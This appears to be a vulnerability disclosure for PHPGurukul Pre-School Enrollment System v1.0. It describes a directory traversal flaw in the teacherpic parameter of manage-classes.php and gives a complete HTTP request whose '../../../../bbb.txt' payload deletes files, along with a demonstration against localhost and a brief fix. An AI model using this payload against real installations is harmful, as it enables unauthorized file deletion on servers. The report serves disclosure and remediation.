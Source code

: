 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2(manage-classes.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with teacherpic in the manage-classes.php file   
   Line 14 gets the teacherpic but does not perform any filtering, and the teacherpic comes from user input
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the manage-classes.php page, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the manage-classes.php?action=delete data packet. No problem parameter teacherpic was found.
   
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/4.png)

   Change the tpic parameter in the data packet to the problematic parameter teacherpic 
   Transformed into attack payload  

    GET /Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php?action=delete&&cid=6&&teacherpic=../../../../bbb.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-Site: same-origin
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Accept-Encoding: gzip, deflate, br, zstd
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php
    Sec-Fetch-Dest: document
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"

   Create bbb.txt test file in  D:\phpstudy_pro\WWW
       ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/微信截图_20250423153628.png)   

   Send payload,
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/6.png)
   bbb.txt file has been deleted   
   ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/5.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
